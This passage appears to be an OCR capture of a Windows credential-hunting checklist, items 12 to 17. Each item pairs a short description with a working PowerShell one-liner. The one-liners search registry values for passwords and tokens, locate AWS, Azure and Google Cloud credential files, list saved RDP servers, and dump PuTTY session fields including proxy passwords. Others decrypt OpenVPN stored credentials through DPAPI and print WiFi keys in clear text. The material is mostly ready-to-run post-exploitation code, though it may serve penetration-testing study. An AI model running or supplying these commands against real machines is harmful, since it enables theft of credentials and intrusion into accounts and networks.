 12. Sensitive Data in Registry
Description:Registry keys may store credentials or tokens. The script searches HKCU and HKLM for values matching regex patterns (e.g., passwords, API keys).
CommandLine:  
$regPath = @("registry::\HKEY_CURRENT_USER\", "registry::\HKEY_LOCAL_MACHINE\"); foreach ($r in $regPath) { (Get-ChildItem -Path $r -Recurse -Force -ErrorAction SilentlyContinue) | ForEach-Object { $property = $_.property; $Name = $_.Name; $property | ForEach-Object { $Prop = $_; $regexSearch.keys | ForEach-Object { $value = $regexSearch[$_]; if ($Prop | Where-Object { $_ -like $value }) { Write-Host "Possible Password Found: $Name\$Prop"; Write-Host "Key: $_" -ForegroundColor Red } } } } }

13. Cloud Credentials
Description:Cloud configuration files (e.g., AWS, Azure, Google Cloud) may contain access keys or tokens. The script checks user directories for these files.
CommandLine:  
$Users = (Get-ChildItem C:\Users).Name; $CCreds = @(".aws\credentials", "AppData\Roaming\gcloud\credentials.db", "AppData\Roaming\gcloud\legacy_credentials", "AppData\Roaming\gcloud\access_tokens.db", ".azure\accessTokens.json", ".azure\azureProfile.json"); foreach ($u in $users) { $CCreds | ForEach-Object { if (Test-Path "c:\Users\$u\$_") { Write-Host "$_ found!" -ForegroundColor Red } } }

14. RDP Saved Connections
Description:Saved RDP connections in the registry may reveal server addresses or credentials. The script checks HKEY_USERS and HKEY_CURRENT_USER for Terminal Server Client settings.
CommandLine:  
New-PSDrive -PSProvider Registry -Name HKU -Root HKEY_USERS -ErrorAction SilentlyContinue; Get-ChildItem HKU:\ -ErrorAction SilentlyContinue | ForEach-Object { $HKUSID = $_.Name.Replace('HKEY_USERS\', ""); if (Test-Path "registry::HKEY_USERS\$HKUSID\Software\Microsoft\Terminal Server Client\Default") { Write-Host "Server Found: $((Get-ItemProperty "registry::HKEY_USERS\$HKUSID\Software\Microsoft\Terminal Server Client\Default" -Name MRU0).MRU0)" } }; if (Test-Path "registry::HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default") { Write-Host "Server Found: $((Get-ItemProperty "registry::HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" -Name MRU0).MRU0)" }

15. PuTTY Stored Credentials
Description:PuTTY session configurations may store usernames or proxy credentials, exploitable for session hijacking. The script checks HKCU:\SOFTWARE\SimonTatham\PuTTY\Sessions.
CommandLine:  
if (Test-Path HKCU:\SOFTWARE\SimonTatham\PuTTY\Sessions) { Get-ChildItem HKCU:\SOFTWARE\SimonTatham\PuTTY\Sessions | ForEach-Object { $RegKeyName = Split-Path $_.Name -Leaf; Write-Host "Key: $RegKeyName"; @("HostName", "PortNumber", "UserName", "PublicKeyFile", "PortForwardings", "ConnectionSharing", "ProxyUsername", "ProxyPassword") | ForEach-Object { Write-Host "$_ :"; Write-Host "$((Get-ItemProperty HKCU:\SOFTWARE\SimonTatham\PuTTY\Sessions\$RegKeyName).$_)" } } }

16. OpenVPN Credentials
Description:OpenVPN stores encrypted credentials in the registry, which can be decrypted if accessible. The script checks HKCU:\Software\OpenVPN-GUI\configs and decrypts auth-data.
CommandLine:  
$keys = Get-ChildItem "HKCU:\Software\OpenVPN-GUI\configs" -ErrorAction SilentlyContinue; if ($Keys) { Add-Type -AssemblyName System.Security; $items = $keys | ForEach-Object { Get-ItemProperty $_.PsPath }; foreach ($item in $items) { $encryptedbytes = $item.'auth-data'; $entropy = $item.'entropy'; $entropy = $entropy[0..(($entropy.Length) - 2)]; $decryptedbytes = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedBytes, $entropy, [System.Security.Cryptography.DataProtectionScope]::CurrentUser); Write-Host ([System.Text.Encoding]::Unicode.GetString($decryptedbytes)) } }

17. WiFi Passwords
Description:WiFi profiles may store plaintext passwords, accessible if the user has permissions. The script extracts SSIDs and passwords using netsh wlan show profile.
CommandLine:  
((netsh.exe wlan show profiles) -match '\s{2,}:\s').replace("    All User Profile     : ", "") | ForEach-Object { netsh wlan show profile name="$_" key=clear }
